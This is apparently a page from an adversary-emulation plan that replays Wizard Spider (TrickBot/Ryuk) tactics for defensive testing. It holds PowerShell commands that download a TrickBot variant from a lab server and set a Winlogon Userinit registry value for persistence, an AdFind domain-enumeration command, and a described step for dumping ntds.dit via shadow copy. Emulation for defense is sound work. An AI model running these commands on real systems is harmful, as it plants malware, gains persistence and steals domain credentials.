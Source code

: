 :warning: Open an **administrator powershell**.

Download a trickbot variant (same binary with a zero appended to the very end)

```pwsh
# Wizard Spider has established persistence using Userinit by adding the Registry key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon.[3]

Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/uxtheme.exe -OutFile $env:AppData\uxtheme.exe
```

```pwsh
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $env:AppData\uxtheme.exe" -Force
```

```pwsh
# Wizard Spider has also used AdFind and nltest/dclist to enumerate domain computers, including the domain controller.[4][5][3][7][6]

adfind -f "(objectcategory=group)"
```

### :microscope: Cited Intelligence

* https://us-cert.cisa.gov/ncas/alerts/aa20-302a
* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/
* https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://thedfirreport.com/2020/10/08/ryuks-return/
* https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/

## Step 8 - Dump Active Directory Database (ntds.dit)

:microphone: `Voice Track:`

During step 8, Wizard Spider creates a volume shadow copy in order to collect the active directory database (ntds.dit).

Wizard Spider uses vssadmin to create the shadow copy.

Wizard Spider exfiltrates the shadow copy files using an RDP-mounted network share.

--- 

### :biohazard: Procedures

:warning: Spawn a **CMD** shell within your PowerShell window:

```bash
cmd.exe
```
